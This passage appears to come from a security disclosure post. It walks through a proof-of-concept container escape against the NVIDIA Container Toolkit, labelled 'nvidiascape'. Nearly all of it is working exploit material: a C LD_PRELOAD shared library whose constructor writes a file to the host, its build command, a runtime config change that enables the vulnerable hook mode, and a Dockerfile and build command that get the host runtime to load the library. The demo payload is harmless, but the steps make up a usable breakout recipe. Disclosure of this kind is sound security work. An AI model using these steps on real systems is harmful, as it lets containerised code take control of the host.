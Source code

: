 **poc.c**
```
// poc.c - minimal malicious LD_PRELOAD library (creates /owned)

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

// This function is called when the shared library is loaded
__attribute__((constructor))
void init(void) {
    int fd = open("/owned", O_WRONLY | O_CREAT | O_TRUNC, 0644);
    if (fd != -1) {
        write(fd, "You have been owned!\n", 21);
        close(fd);
    }
}
```

Build it with:

```
gcc -fPIC -shared -o poc.so poc.c
```

**Configure OCI hook for NVIDIA Container runtime**

The createContainer OCI hook only executes when the CUDA Forward Compatibility mode is set to "hook."

Add or edit the `/etc/nvidia-container-runtime/config.toml` file so it contains the following:

```
[nvidia-container-runtime.modes.legacy]
cuda-compat-mode = "hook"
```

A detailed explanation about CUDA Forward Compatibility mode will follow later on this post.


**Create a docker image**

This docker image will contain the poc.so library that we created on the previous step. A vulnerable runtime will load this library and execute it at host level.

**Dockerfile**
```
FROM busybox
ENV LD_PRELOAD=./poc.so
ADD poc.so /
```

The Dockerfile and the poc.so must be in the same folder

Then build the image with:

```
docker build . -t nvidiascape-exploit
```
